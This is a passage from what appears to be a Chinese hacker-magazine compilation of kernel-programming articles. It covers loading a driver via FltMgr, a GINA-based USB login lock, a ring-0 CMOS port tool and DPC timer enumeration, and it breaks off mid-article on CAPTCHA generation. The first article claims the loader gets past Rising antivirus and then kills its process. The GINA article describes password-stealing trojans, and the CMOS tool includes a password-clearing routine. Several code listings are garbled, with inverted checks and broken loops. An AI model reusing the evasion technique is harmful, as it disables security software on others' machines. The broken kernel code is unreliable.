    }
    wcscpy(service_to_load.ServiceName, L"load");
    service_to_load.Len = wcslen(service_to_load.ServiceName) * sizeof(WCHAR);
    err = DeviceIoControl(hDevice, MAGIC_IOCTL,
        &service_to_load, sizeof(service_to_load), NULL, 0,
        &dwRet, NULL);
    if (!err) {
        printf("sorry\n");
        goto __end;
    }
    printf("\n");
__end:
    CloseHandle(hDevice);
    return 0;
}
```

```c
WCHAR szMain[512] = {0};
WCHAR szImgPath[512] = {0};
wchar_t szRegPath[512] = {0};
wsprintfW(szMain,
    L"%s%s",
    L"SYSTEM\\CurrentControlSet\\Services\\",
    szDriverName);
// 在 service 键值下注册
wsprintfW(szImgPath,
    L"%s%s",
    L"\\??\\",
    szDriverPath);
if (RegCreateKeyW(HKEY_LOCAL_MACHINE, szMain, &hKey) == ERROR_SUCCESS)
{
    RegSetValueExW(hKey, L"DisplayName", 0, REG_SZ,
        (LPBYTE)szDriverName,
        (DWORD)lstrlenW(szDriverName) * 2);
    RegSetValueExW(hKey, L"ImagePath", 0, REG_EXPAND_SZ,
        (LPBYTE)szImgPath,
        (DWORD)lstrlenW(szImgPath) * 2);
    RegSetValueExW(hKey, L"Type", 0, REG_DWORD,
        (LPBYTE)&dwType, (DWORD)sizeof(dwType));
    RegSetValueExW(hKey, L"Start", 0, REG_DWORD,
        (LPBYTE)&dwStart, (DWORD)sizeof(dwStart));
}
```

这段代码和 SCM 加载驱动的代码基本一致，只不过换成了 FltMgr 进行加载。驱动还需要在注册表中进行服务注册，不过这个注册和 SCM 加载的方式一模一样，就不多说了，代码如下：

这种方法经过测试，可以过瑞星 2010 最新版，如图2所示，驱动已经被加载上去了。也许是瑞星的防范不太严谨，加载驱动之后，完全可以用 PspTerminateProcess 这种办法干掉主程序的进程。不过需要注意的是，瑞星采用了双进程守护。

```c
VOID WINAPI make_reg(LPWSTR szDriverName, LPWSTR szDriverPath)
{
    DWORD dwType = SERVICE_KERNEL_DRIVER;
    // 定义注册类型为内核驱动
    DWORD dwStart = SERVICE_DEMAND_START;
    // 手动启动服务
    HKEY hKey;
    ...
}
```


图2

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、GINA、开机锁

#### 利用 GINA 实现 U 盘开机锁


文／masepu

我曾在黑防上发表了一篇利用普通 U 盘打造开机锁的文章，当时虽然程序功能都已实现，但其运行方式过于初级，只是简单地将程序放入启动目录，利用启动组开机运行。经黑防编辑提点，经过一段时间的资料收集和测试，实现了利用重写 GINA 进行 U 盘检测认证的开机锁功能，特写出来与大家分享。由于 Windows 本身就是利用 GINA 进行身份验证的，因此该程序能够很好地与操作系统集成，完美实现 U 盘开机锁的功能。

在 Windows 中，GINA（Graphical Identification and Authentication）是一个可以被替换的动态链接库。默认文件名为 `msgina.dll`，位于系统 `System32` 目录下。为了支持更多的交互登录验证方式，GINA 是可替换的，我们可以自己开发 GINA 动态链接库以实现其他类型的身份验证方法，而且微软也提供了相关文档和例程。

##### 原理

GINA（Graphical Identification and Authentication）是 Windows 操作系统提供的安全登录认证和交互登录服务组件，可为 Winlogon 提供用户身份识别和验证，以及用户账号和密码的反馈功能。在 Windows 中，Winlogon 进程负责管理与登录和身份认证相关的安全性工作，包括处理用户的登录与注销、启动用户 shell、输入口令、更改口令、锁定与解锁工作站等。Winlogon 进程在系统初始化、启动用户程序之前运行，以保证相关操作对其他进程不可见，避免其他进程取得登录敏感数据。启动过程中，`winlogon.exe` 会调用 GINA，我们在 Windows 登录过程中看到的欢迎屏幕和登录对话框就是 GINA 显示的。

## 恶意

GINA 作为一个图形化身份识别和验证组件，充当系统交互式登录的入口。有些木马也利用 GINA 进行密码盗取，它们往往编写和系统 GINA 界面相同的 GINA，然后替换 `MSGINA.dll`。最简单的 GINA 木马只需写一个接口和原始 GINA 一样的 `MSGINA.dll`，需要实现的功能就是登录时将密码记录下来，其他所有函数的实现都去调用原始 `MSGINA.dll` 内的同名函数。原始的 GINA 动态链接库会输出表1中的函数以供 winlogon 进程调用，因此在我们的 GINA 里要么自己实现这些函数，要么直接调用原始 GINA DLL 里的同名函数。GINA 除了要实现以上的函数功能外，也要调用 Winlogon 提供的函数，这些函数也具有相同的 Wlx 前缀，此处不再赘述。

## 表1

| 导出函数名 | 功能简介 |
|---|---|
| WlxActivateUserShell | 激活用户外壳程序 |
| WlxDisplayLockedNotice | 允许 GINA DLL 显示锁定信息 |
| WlxDisplaySASNotice | 当没有用户登录时，Winlogon 调用此函数 |
| WlxDisplayStatusMessage | Winlogon 用一个状态信息调用此函数进行显示 |
| WlxGetConsoleSwitchCredentials | Winlogon 调用此函数读取当前登录用户的信任信息，并透明地将它们传到目标会话 |
| WlxGetStatusMessage | Winlogon 调用此函数获取当前状态信息 |
| WlxInitialize | 针对指定的窗口位置进行 GINA DLL 初始化 |
| WlxIsLockOk | 验证工作站正常锁定 |
| WlxIsLogoffOk | 验证注销正常 |
| WlxLoggedOnSAS | 用户已登录并且工作站没有被加锁，如果此时接收到 SAS 事件，则 Winlogon 调用此函数 |
| WlxLoggedOutSAS | 没有用户登录，如果此时收到 SAS 事件，则 Winlogon 调用此函数（文中在该函数中实现开机锁功能） |
| WlxLogoff | 请求注销操作时通知 GINA DLL |
| WlxNegotiate | 表示当前的 Winlogon 版本是否能使用 GINA DLL |
| WlxNetworkProviderLoad | 在加载网络服务提供程序并收集身份和认证信息后，Winlogon 调用此函数 |
| WlxRemoveStatusMessage | Winlogon 调用此函数告诉 GINA DLL 停止显示状态信息 |
| WlxScreenSaverNotify | 允许 GINA 与屏幕保护操作交互 |
| WlxShutdown | 在关闭之前 Winlogon 调用此函数，允许 GINA 实现任何关闭任务 |
| WlxStartApplication | 当系统需要在用户上下文中启动应用程序时调用此函数 |
| WlxWkstaLockedSAS | 当工作站被锁定，如果接收到一个 SAS，则 Winlogon 调用此函数 |

##### 实现

GINA 函数通常的调用顺序为：操作系统启动后，Winlogon 会加载 GINA 并首先调用 `WlxNegotiate` 函数，该函数实现 GINA 和 Winlogon 版本互相验证的功能。接着会调用 `WlxInitialize` 来做初始化操作。初始化完成后，在未有用户登录之前，Winlogon 会调用 `WlxDisplaySASNotice` 来显示登录提示（如“按 Ctrl+Alt+Del 组合键登录”）。当用户按提示操作后，Winlogon 会调用 GINA 中的下一个函数 `WlxLoggedOutSAS`，该函数具体实现对用户登录进行身份验证，也是本文主要需要修改的函数。接下来如果用户身份验证通过，GINA 会向 Winlogon 返回一个标记句柄，以便 Winlogon 为该用户配置专用登录会话和默认桌面。接着 Winlogon 会调用 `WlxActivateUserShell`，GINA 启动用户 shell 并返回给 Winlogon，此时用户就可以成功登录到系统中。

本文主要是在 `WlxLoggedOutSAS` 函数中实现 U 盘检测、U 盘 ID 获取和 ID 值比较等功能。为了不具体实现每一个 GINA 的导出函数，其余需要被 Winlogon 调用的函数采用直接调用原始 GINA 动态链接库中的函数方法来实现，以保证自定义 GINA 动态链接库具有和原始 GINA 一样的功能。即使在 `WlxLoggedOutSAS` 函数中实现附加功能后，同样要调用原始 GINA 内的该同名函数，以便将数据正确返回 Winlogon。

在编写过程中，导入原始 GINA 动态链接库的语句为 `hMsDll = LoadLibrary(L"msgina.dll");`，并通过 `GetProcAddress` 获取原始 DLL 的导出函数地址指针。

```c
if (hMsDll != NULL)
{
    MyWlxNegotiate = (NEGOTIATE)GetProcAddress(hMsDll, "WlxNegotiate");
    MyWlxInitialize = (INITIALIZE)GetProcAddress(hMsDll, "WlxInitialize");
    // ...
}
```

而 Winlogon 需要调用的 GINA 函数如下方式实现：

```c
BOOL WINAPI WlxNegotiate(DWORD dwWinLogonVersion, PDWORD pdwDllVersion)
{
    return theApp.MyWlxNegotiate(dwWinLogonVersion, pdwDllVersion);
}
```

U 盘检测和 ID 读取比较等验证功能在以前的文章中已经交代清楚，这里就不再赘述。程序编写成功并安装完成后，Windows 开机登录系统时的登录界面会变成如图1所示的界面。


整个软件实现的功能就是当用户开机登录系统时，弹出要求检测 U 盘锁的对话框；当用户将 U 盘插入后，我们编写的 GINA 会检测该 U 盘 ID 与所存 ID 是否一致，如果一致则跳到用户名密码输入的登录页面，否则拒绝登录。程序在第一次使用时，会读取 U 盘 ID 并存到系统文件夹下，以便之后判断比较。

##### 归类

本文程序的安装过程非常简单，先将生成好的 GINA 动态链接库拷入系统 System32 目录下，然后在注册表中添加如下信息：

- 键值：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`
- 变量名：`GinaDLL`
- 变量类型：`[REG_SZ]`
- 内容：“生成的 GINA DLL 文件的名称”

最后重启机器，U 盘锁登录界面就会出现。当然，整个安装过程也可以编程自动实现。大家可以利用本文的 GINA 程序作为模板来随意改变系统的登录认证方式，有兴趣的欢迎自己动手试试。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：Delphi  
关键词：编程、CMOS、Ring0……

#### 内核编写 CMOS 维护工具


文／图 liuke_blue

我们知道在 Windows 98 以前的系统中，应用程序可以直接访问 I/O 端口。举个例子，当不知道 CMOS 密码时，我们可以在 DOS 下输入如下 debug 命令：

```asm
-a 100
-15D2:0100 MOV AL,10 ; 此处为 0-100 的任意值
-15D2:0102 OUT 70,AL   ; 直接访问 I/O 端口必须通过 AL 寄存器
-15D2:0104 OUT 71,AL   ; 破坏校验和
-15D2:0106 INT 20      ; 结束程序
-15D2:0108             ; 回车
-g 0100                ; 执行程序
-q
```

## 编程解析 PROGRAMMING ANALYSE

〉栏目编辑：socket〉

这样可以通过输入垃圾数据来破坏 CMOS 里保存的数据，从而顺便达到清除 CMOS 密码的目的。但是到了 Windows 2000 以后，这个方法却行不通了。有些文章说由于 Windows 2000 以后的系统所带的 DOS 是模拟的，禁止对 CMOS 写入，但真正的原因是保护模式 I/O 访问保护的出现。DOS 系统运行在实模式下，实模式的所有指令相当于工作在特权级（优先级0），而在保护模式优先级分为 0 级～3 级，Windows 系统不使用 1 级和 2 级，所以只用到 0 级和 3 级，“很眼熟”吧？这就是 Ring0 和 Ring3。应用程序运行在 Ring3，内核程序运行在 Ring0，而 Windows I/O 访问的规则有这么一条：若 CPL<=IOPL，则进行 I/O 访问，其中 Windows 中 IOPL=0，所以明白没有，只有在内核下才可以访问 I/O。因为 Ring0 中 CPL=0，而 Ring3 中 CPL=3，所以最简单的方法就是直接在内核下访问 I/O。

本文程序分为两部分，首先介绍内核代码，主要代码如下：

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    UNICODE_STRING devicenamestring, devicelinkstring;
    PDEVICE_OBJECT deviceObject;
    NTSTATUS status;
    pIOPM = MmAllocateNonCachedMemory(sizeof(IOPM));
    if (pIOPM == 0)
    {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
    RtlZeroMemory(pIOPM, sizeof(IOPM));
    Ke386IoSetAccessProcess(PsGetCurrentProcess(), 1);
    Ke386SetIoAccessMap(1, pIOPM);
    RtlInitUnicodeString(&devicenamestring, L"\\Device\\clear1234");
    RtlInitUnicodeString(&devicelinkstring, L"\\DosDevices\\clear1234");
    status = IoCreateDevice(DriverObject,
        0,
        &devicenamestring,
        FILE_DEVICE_MYPORT,
        0,
        FALSE,
        &deviceObject);
    if (NT_SUCCESS(status))
    {
        return status;
    }
    status = IoCreateSymbolicLink(&devicelinkstring,
        &devicenamestring);
    if (NT_SUCCESS(status))
    {
        IoDeleteDevice(deviceObject);
        return status;
    }

    // 这里不指定分发例程，在 check 中无法成功
    DriverObject->MajorFunction[IRP_MJ_CREATE] = MyCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = MyCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = MyPortDispatch;
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}

NTSTATUS DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    UNICODE_STRING linkString;
    if (pIOPM)
    {
        MmFreeNonCachedMemory(pIOPM, IOPM_SIZE);
    }
    DbgPrint("卸载驱动");
    // 必须删除符号链接才算卸载完成
    RtlInitUnicodeString(&linkString, L"\\DosDevices\\clear1234");
    IoDeleteSymbolicLink(&linkString);
    IoDeleteDevice(DriverObject->DeviceObject);
    return STATUS_SUCCESS;
}

// 处理 I/O 端口过程
NTSTATUS MyPortDispatch(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    PIO_STACK_LOCATION sp;
    ULONG dwIoControlCode;
    PULONG PIOBuffer;
    NTSTATUS ntstatus;

    sp = IoGetCurrentIrpStackLocation(Irp);
    Irp->IoStatus.Status = 0;
    Irp->IoStatus.Information = 0;
    PIOBuffer = Irp->AssociatedIrp.SystemBuffer;
    dwIoControlCode = sp->Parameters.DeviceIoControl.IoControlCode;

    switch (dwIoControlCode)
    {
        case IOCTL_MYPORT_READ_BYTE: // 从端口读字节
            PIOBuffer[1] = inp(PIOBuffer[0]);
            Irp->IoStatus.Information = 8;
            break;
        case IOCTL_MYPORT_WRITE_BYTE: // 从端口写字节
            ...
    }
}
```

```pascal
_outp(PIOBuffer[0], PIOBuffer[1]);
DbgPrint("Write Byte 0x%x\n", PIOBuffer[1]);
break;
default:
    Irp->IoStatus.Status = STATUS_INVALID_PARAMETER;
}
ntstatus = Irp->IoStatus.Status;
IoCompleteRequest(Irp, IO_NO_INCREMENT);
return ntstatus;
}
```

用 `MmAllocateNonCachedMemory` 函数分配 8KB 内存空间（CPU 读数据时会从内存中读取，而不是从高速缓冲存储器中读取）。使用 `Ke386IoSetAccessProcess` 函数指定当前进程访问 IOPM 表（这个 IOPM 表是指 65536 个端口的位屏蔽矩阵，包含 8192 字节）。`Ke386SetIoAccessMap` 函数访问任务状态段 TSS 的 I/O 许可位图，然后用 `_inp` 和 `_outp` 这两个函数直接访问 I/O 端口。

CMOS 是一个 128 字节大小的存储区，它存放了有关机器 BIOS 配置的重要信息，而 BIOS 内有 CMOS 的设置程序。基于 IBM PC 的机器分配了 `70H` 和 `71H` 端口给 CMOS，通过这两个端口我们可以访问或者修改 CMOS 的配置信息。访问 `70H`，确定访问 CMOS 的地址（`0H-80H`），然后通过向已确定后的 CMOS 地址来访问 `71H` 数据端口，从而达到访问或者修改 CMOS 内数据的目的。应用程序主要代码如下：

```pascal
procedure TForm1IO_install();
begin
  if sysdrv = nil then
  begin
    sysdrv := TSysDriver.Create(clear1234);
    sysdrv.OpenSCM;
    sysdrv.Install();
    sysdrv.Start;
    sysdrv.DeviceOpen;
    if Not HaveLoad then
    begin
      MessageBox(0,'驱动未加载，列举出错!', MB_OK + MB_ICONERROR);
      ExitProcess(0);
    end;
  end;
end;

procedure TForm1IO_Uninstall();
begin
  ...
end;

if sysdrv <> nil then
begin
  sysdrv.DeviceClose;
  sysdrv.Stop;
  sysdrv.Remove;
  sysdrv.CloseSCM;
  sysdrv.Free;
  sysdrv := nil;
end;

procedure TForm1FormCreate(Sender: TObject);
begin
  IO_install;
end;

procedure TForm1FormClose(Sender: TObject; var Action: TCloseAction);
begin
  IO_Uninstall;
end;

// 读端口
function TForm1ReadPortByte(port: WORD): BYTE;
var
  buf: array[0..1] of DWORD;
  dwOutBytes: DWORD;
begin
  buf[0] := port;
  DeviceIoControl(hDevice, IOCTL_MYPORT_READ_BYTE, @buf, sizeof(DWORD)*2, @buf, sizeof(DWORD)*2, dwOutBytes, nil);
  result := BYTE(buf[1]);
end;

// 写端口
procedure TForm1WritePortByte(port: WORD; data: BYTE);
var
  buf: array[0..1] of DWORD;
  dwOutBytes: DWORD;
begin
  buf[0] := port;
  buf[1] := data;
  DeviceIoControl(hDevice, IOCTL_MYPORT_WRITE_BYTE, @buf, sizeof(DWORD)*2, @buf, sizeof(DWORD)*2, dwOutBytes, nil);
end;
```

```pascal
// 清除 CMOS 密码
procedure TForm1SpeedButton1Click(Sender: TObject);
begin
  WritePortByte($70,$10);
  WritePortByte($71,$1);
  MessageBox(0,'CMOS密码可能清除成功!','提示',MB_OK+MB_ICONINFORMATION);
end;

// 备份 CMOS 数据
procedure TForm1SpeedButton2Click(Sender: TObject);
var
  i, len: Integer;
  SvFilePath: string;
  data: BYTE;
  CMOSFile: THandle;
  dwreturnbyte: DWORD;
begin
  SvFilePath := ExtractFilePath(GetModuleName(Hinstance));
  len := Length(SvFilePath);
  if SvFilePath[len] <> '\' then SvFilePath := SvFilePath + '\';
  SvFilePath := SvFilePath + 'CMOS.data';
  if FileExists(SvFilePath) then DeleteFile(SvFilePath);
  CMOSFile := CreateFile(PChar(SvFilePath), GENERIC_READ or GENERIC_WRITE, 0, nil, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
  SetFilePointer(CMOSFile, 0, nil, FILE_BEGIN);
  i := 0;
  while (i < 128) do
  begin
    WritePortByte($70, BYTE(i));
    data := ReadPortByte($71);
    WriteFile(CMOSFile, data, 1, dwreturnbyte, nil);
    Inc(i);
  end;
  MessageBox(0,'CMOS数据备份成功!','提示',MB_OK+MB_ICONINFORMATION);
end;

procedure TForm1SpeedButton3Click(Sender: TObject);
var
  i, len: Integer;
  SvFilePath: string;
  CMOSFile: THandle;
  data: BYTE;
  dwreturnbyte: DWORD;
begin
  SvFilePath := ExtractFilePath(GetModuleName(Hinstance));
  len := Length(SvFilePath);
  if SvFilePath[len] <> '\' then SvFilePath := SvFilePath + '\';
  SvFilePath := SvFilePath + 'CMOS.data';
  if not FileExists(SvFilePath) then
  begin
    MessageBox(0,'CMOS数据恢复失败!','警告',MB_OK+MB_ICONERROR);
    Exit;
  end;
  CMOSFile := CreateFile(PChar(SvFilePath), GENERIC_READ, 0, nil, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
  SetFilePointer(CMOSFile, 0, nil, FILE_BEGIN);

  // 恢复 CMOS
  i := 0;
  while (i < 128) do
  begin
    ReadFile(CMOSFile, data, 1, dwreturnbyte, nil);
    WritePortByte($70, BYTE(i));
    WritePortByte($71, BYTE(data));
    Inc(i);
    SetFilePointer(CMOSFile, i, nil, FILE_BEGIN);
  end;
  MessageBox(0,'CMOS数据恢复成功!','提示',MB_OK+MB_ICONINFORMATION);
end;
```

其中使用了自己写的一个驱动加载的类，实现运行程序时自动加载驱动，关闭程序时自动卸载驱动。图1是程序运行后的示意图。


图1

CMOS 备份的数据放在与程序同一目录下，命名为 `CMOS.data`，其中前面三个字节保存的是时间，所以每次保存的文件都会有所不同。清空 CMOS 密码会把 CMOS 保存数据打乱，大家可以自己测试。其实直接访问 I/O 还可以修改硬盘数据，早期磁盘还原就是挂钩 `INT 13` 实现的。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程，DPC，枚举

## 浅谈枚举DPC
##### 定时器的思路


文/图 cxs_cqupt

用过 Ark 及 XueTr 的都知道其功能的强大。我们想知道的关键是，它是如何将系统内部的所有 DPC 定时器全都枚举出来的。好奇之余，我查阅了 WRK 及 WinDbg 反汇编部分函数，小有所得，这里与大家分享一下。

且还发现频繁出现 `KiTimerTableListHead` 这个变量。

我们用 WinDbg 查看 `KTIMER` 结构，发现了一个熟悉又可爱的 `LIST_ENTRY`。

```c
typedef struct _KTIMER_TABLE_ENTRY {
    LIST_ENTRY Entry;
} KTIMER_TABLE_ENTRY, *PKTIMER_TABLE_ENTRY;

KTIMER_TABLE_ENTRY KiTimerTableListHead[TIMER_TABLE_SIZE];
```

```text
lkd> dt _KTIMER
+0x000 Header         : _DISPATCHER_HEADER
+0x010 DueTime        : _ULARGE_INTEGER
+0x018 TimerListEntry : _LIST_ENTRY
+0x020 Dpc            : Ptr32 _KDPC
+0x024 Period         : Int4B
```

但有的版本定义如下：

```c
typedef struct _KTIMER_TABLE_ENTRY {
    LIST_ENTRY Entry;
    ULARGE_INTEGER Time;
} KTIMER_TABLE_ENTRY, *PKTIMER_TABLE_ENTRY;
```

我们直接用 `TimerListEntry` 是不是就可以遍历所有 DPC 定时器了呢？嘿嘿，没那么简单。Windows 在插入的时候做了特殊的操作，接下来我们就看看这个操作到底有多特殊。在 WinDbg 里用 `uf` 命令查看 `KeSetTimerEx` 函数，部分关键代码如下：

经过验证，在 Windows XP SP3 下应该是前者，我想可能是出于节约内存空间吧；我们继续往下看 `KiInsertTimerTable`。

```asm
nt!KeSetTimerEx+0xa0:
push ebx
push edi
mov ecx, esi
call nt!KiInsertTreeTimer
```

出现了 `KiInsertTreeTimer`，看名字应该跟插入相关了。继续跟下去，又出现了一个 `call nt!KiInsertTimerTable`。`KiInsertTimerTable` 在 WRK 内找不到相关源码，只有自己干体力活了。而：

```asm
edx nt!KiTimerTableListHead (8055d780)[eax*8]
mov ecx, dword ptr [edi+4]
cmp ecx, edi
jc  nt!KiInsertTimerTable+0x42
...
mov eax, dword ptr [esi+10h]
mov edx, dword ptr [esi+14h]
cmp     edx,dword ptr [ecx-4]
// 简单地比较高32位
ja      nt!KiInsertTimerTable+0x42
// 大于则跳到 KiInsertTimerTable+0x42
...
// 从 LIST_ENTRY 开始遍历
mov     ecx,dword ptr [ecx+4]
cmp     ecx,edi
jne     nt!KiInsertTimerTable+0x2f
...
// 这里就是插入操作
mov     edx,dword ptr [ecx]
lea     eax,[esi+18h]
mov     dword ptr [eax],edx
mov     dword ptr [eax+4],ecx
mov     dword ptr [edx+4],eax
mov     dword ptr [ecx],eax
```

可见 `KiInsertTimerTable` 会根据 `DueTime` 大小选择插入位置。但是我们该如何得到 `KiTimerTableListHead` 数组的首地址？通过暴力搜索定位层次太深。如果获取其中一个元素地址，分别向上向下搜索即可得到所有元素；再从每个元素出发即可得到所有 `KTIMER`，再根据 `KTIMER` 的 DPC 指针筛选，最终可得到所有 DPC 定时器。

我们可以通过设置最小的 `DueTime`，让生成的 `KTIMER` 直接与 `KiTimerTableListHead` 相连。通过 `KTIMER` 的 `LIST_ENTRY` 即可得到 `KiTimerTableListHead` 数组的某个元素地址。获得地址的代码如下：

```c
LIST_ENTRY *GetKiTimerListItem()
{
    KTIMER Timer;
    LARGE_INTEGER DueTime;
    KIRQL OldIrql;
    LIST_ENTRY *ListItem;

    KeInitializeTimer(&Timer);
    DueTime.QuadPart = -1;
    // 通过设置最短相对时间反复调用 KeSetTimer 直到插入成功
    KeRaiseIrql(DISPATCH_LEVEL, &OldIrql);
    while (!KeSetTimer(&Timer, DueTime, NULL))
        ;

    ListItem = Timer.TimerListEntry.Blink;
    KeCancelTimer(&Timer);
    KeLowerIrql(OldIrql);
    return ListItem;
}
```

```c
DueTime.QuadPart = -1;

ListItem = Timer.TimerListEntry.Blink;
// 取得元素地址，该地址存放一个 LIST_ENTRY 结构
KeCancelTimer(&Timer);
KeLowerIrql(OldIrql);
return ListItem;
}
```

遍历的时候要注意一个问题，`LIST_ENTRY` 是双向链表。如图1所示，如果不注意设置遍历结束条件，容易导致死循环。可选取一个结点作为标志结点（这里选头结点），当遍历过程中再次到达该结点时，说明已完成一次遍历。


我们还需要注意其他问题：首先，获得的元素并不一定都在 `KiTimerTableListHead[TIMER_TABLE_SIZE]` 中，因此判断条件必须严格，以防错误打印，尤其要用 `MmIsAddressValid()` 函数做地址有效性检测。下面是枚举实现代码：

```c
void EnumKTimer()
{
    ULONG Index = 0;      // 下标索引
    ULONG count = 0;      // 定时器计数
    PKTIMER ptimer;
    LIST_ENTRY *ListHead;
    LIST_ENTRY *NextEntry;
    LIST_ENTRY *TimerItemDown = GetKiTimerListItem();
    LIST_ENTRY *TimerItemUp = TimerItemDown;

    KdPrint(("TimerItemDown:0x%X\n", TimerItemUp));

    // 输出向下搜索的初始地址
    if (TimerItemDown)
    {
        do {
            ListHead = &TimerItemDown[Index];
            NextEntry = ListHead->Flink;
        } while ((NextEntry != ListHead) && (MmIsAddressValid(NextEntry)));

        ptimer = CONTAINING_RECORD(NextEntry, KTIMER, TimerListEntry);
        NextEntry = NextEntry->Flink;
    }

    if (MmIsAddressValid(ptimer) || ptimer->Header.Inserted == 1 || ptimer->Header.Size == 0 || ptimer->Header.Absolute == 0)
        break; // 不符合 KTIMER 结构，跳出
    if (ptimer->Dpc != NULL && ptimer->Dpc->DeferredRoutine != NULL)
    {
        count++;
        KdPrint(("0x%X\n", ptimer)); // 简单输出下地址
    }
    ...
    Index++;
    while (Index < MAX_INDEX)
    {
        KdPrint("EndAddress:0x%X\n", &TimerItemDown[Index]);
        // 输出向上遍历的结束地址
        Index = MAX_INDEX - 1; // 防止重复输出一个元素
        KdPrint("TimerItemDown:0x%X\n", TimerItemDown);
        TimerItemDown = TimerItemDown - 512;
        // 向上移动 512
        KdPrint("TimerItemDown:0x%X\n", TimerItemDown);
        // 输出移动后的地址
        do
        {
            // 开始向上搜索
            ListHead = &TimerItemDown[Index];
            NextEntry = ListHead->Flink;
            while ((NextEntry != ListHead) && MmIsAddressValid(NextEntry))
            {
                ptimer = CONTAINING_RECORD(NextEntry, KTIMER, TimerListEntry);
                NextEntry = NextEntry->Flink;
                if (MmIsAddressValid(ptimer) || ptimer->Header.Inserted == 1 || ptimer->Header.Size == 0)
                    break;
                ...
            }
        }
    }

    ...->DeferredRoutine != NULL))
    {
        count++;
        KdPrint(("0x%X\n", ptimer));
    }
    ...
    Index--;
    {
        while (Index > 0)
            KdPrint(("count %d\n", count));
    }
}
```

将以上代码编译运行，与 XueTr 对比（排序上有出入），结果如图2所示。


图2

本文的代码只是一种简单的枚举思路，只是尝试用另一种途径来枚举，还有很多没有完善的地方。本驱动代码在 WDK + Windows XP SP3 下编译通过，在其下加载并成功实现功能。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程，验证码，随机数


#### 图片验证码的随机实现详解

文/图 Winbo

当用户注册或登录网站时，为避免遭有意者以程序自动大量重复执行这类功能增加系统无谓的负担，系统以随机数产生英文字母与数字元素的验证码，以图形方式呈现，在将使用者输入……数据送出前，需同时输入在图形中看到的验证码，进行使用者验证或数据验证的同时，也需检查验证码是否相同，从而提高了系统的安全性。图1是一个典型的会员注册界面，图中的“PC8N”就是一个典型的图片验证码。

图1

有兴趣的读者可能会问，这些图片验证码是如何实现的呢？在这些图片验证码背后，还隐藏着什么安全保密的玄机呢？要知道，一个图片验证码可不仅仅是几个数字那么简单。下面我们通过一个具体案例对验证码的原理及过程进行详细的分析。

##### 就这么简单：轻松设计验证图片

这里以使用比较普遍的 Visual Studio .NET 软件为例。首先，我们还是来看一个常见的图片验证实现过程。

- 步骤1：打开 Visual Studio .NET 软件，建立一个 ValidateImage.ashx 文件，用来产生验证码图片。验证码类 ValidateImage 主要是完成验证码的生成，首先生成随机数，然后生成图片，最后写入 HTTP 输出流到页面。流程可表示如图2所示。  
  图2
- 步骤2：将此文件的相对路径赋给登录界面中的验证码 image 控件的图片链接地址。
- 步骤3：如果产生的验证码图片不清晰，可单击该验证码图片本身或其旁边的“看不清楚，换个图片”链接来更换验证码图片，方便用户在验证码图片中字符模糊的情况下能够得到可识别的验证码字符。
- 步骤4：比较提交的字符与服务器端保存的该字符是否一致。如果一致就继续，否则返回提示。

这是一个典型的生成步骤，看上去似乎很复杂，但使用起来却很简单。故事似乎告一段落了，不过，其中的很多隐形方法藏匿于表象之后，而这些方法恰恰又是验证码安全的重要机制。比如为什么验证码能够不断变化、随机生成呢？为了解开这个奥秘，下面来看看用来产生两位数的随机数分配的方法。

##### 玄机可循：验证码中随机数的生成过程

随机数一般通过物理现象产生，比如掷钱币、骰子、转轮、使用电子元件的噪音、核裂变等。这样的随机数发生器叫作物理性随机数发生器，它们的缺点是技术要求比较高。在实际应用中往往使用伪随机数就足够了，这些数列是“似乎”随机的数，实际上它们是通过一个固定的、可以重复的计算方法产生的。计算机或计算器产生的随机数有很长的周期性。它们不真正地随机，因为它们实际上是可以计算出来的，但具有类似于随机数的统计特征。这样的发生器叫作伪随机数发生器。下面，我们来分析一下图片验证码中的随机数。

- 步骤1：查看随机数典型流程。首先看看典型的流程，学过 C 语言的读者应该不会陌生。如图3所示。  
  图3
- 步骤2：代码分析。产生随机数有多种不同的方法，这些方法被称为随机数发生器。随机数最重要的特性是：它所产生的后面的那个数与前面的那个数毫无关系。从其中摘录的代码如下：

```csharp
private string RndNum(int vCodeNum)
{
    // 收集验证码可以显示的字符集, 以“,”分割
    string vChar = "1,2,3,4,5,6,7,8,9,a,b,c,d,e,f,g,h,i,j,k,l,m,n,p,q,r,s,t,u,v,w,x,y,z,A,B,C,D,E,F,G,H,I,J,K,L,M,N,P,Q,R,S,T,U,V,W,X,Y,Z";

    // 拆分到一个数组中
    string[] vcArray = vChar.Split(new Char[] { ',' });

    string vNum = "";
    // 记录最后随机值, 尽量避免同一随机数
    int temp = -1;
    Random rand = new Random();

    // 通过一个简单算法以确保不同的随机编号
    for (int i = 1; i < vCodeNum + 1; i++)
    {
        if (temp != -1)
        {
            // 初始化随机类
            rand = new Random(i * temp * unchecked((int)DateTime.Now.Ticks));
        }

        int t = rand.Next(55); // 获得随机数
        if (temp != -1 && temp == t)
        {
            // 如果获得的随机数重复了, 则递归调用
            return RndNum(vCodeNum);
        }

        temp = t; // 随机数变化数列
        vNum += vcArray[t];
    }

    return vNum;
}
```

- 步骤3：生成随机数，并将其写入图像文件。流程如图4所示。
- 步骤4：实现上述流程的代码如下。

```csharp
public MemoryStream Create(out string vNum)
{
    vNum = RndNum(3);
    Bitmap img = null;
    Graphics g = null;
    MemoryStream ms = null;
    System.Random random = new Random();

    // 设置颜色代码
    Color[] colors = {
        Color.Black, Color.Red, Color.DarkBlue,
        Color.Green, Color.Brown, Color.DarkCyan,
        Color.Purple
    };

    // 字体集合
    string[] fonts = {
        "verdana", "Microsoft Sans Serif",
        "Comic Sans MS", "Arial", "宋体"
    };

    // 对图像大小的定义，生成图像的例子
